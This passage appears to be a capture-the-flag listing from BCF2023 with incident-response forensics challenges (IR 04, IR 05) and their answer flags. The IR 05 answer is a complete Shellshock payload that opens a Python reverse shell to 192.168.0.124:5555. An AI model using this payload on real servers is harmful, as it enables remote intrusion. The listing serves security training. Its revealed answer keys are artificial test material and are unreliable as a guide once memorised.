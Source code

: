 
Author:[Oxf4h1m](https://fb.com/fa11m)

Flag format: `BCF2023{Toolname_DD/MM/YYYY_hh:mm:ss}`

### Max attempts: 5
### Prerequisite: IR 01
### flag BCF2023{Nikto_14/07/2023_16:47:52}





# Problem Name: IR 04: Commands!
### Point: min 150 max 300 (dynamic)
Find the time when the attacker successfully executed the command on the victim server and which binary file is executed on the victim machine. (GMT+6 & 24 hour format)


Author:[Oxf4h1m](https://fb.com/fa11m)

Flag format: `BCF2023{DD/MM/YYYY_hh:mm:ss.sss,/path/to/binary}`

### Max attempts: 5
### Prerequisite: IR 03
### flag BCF2023{14/07/2023_16:48:46.231,/usr/bin/id}





# Problem Name: IR 05: Access_xD
### Point: min 150 max 300 (dynamic)
Which payload is used by the attacker to get initial successful remote access to the server?
Find full payload.


Author:[Oxf4h1m](https://fb.com/fa11m)

Flag format: `BCF2023{payload}`
### Hint: Can you access the User-Agent?
### Hint-cost: 50
### Max attempts: 5
### Prerequisite: IR 03
### flag BCF2023{() { :; }; echo ; echo ; /usr/bin/python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.0.124\",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'}
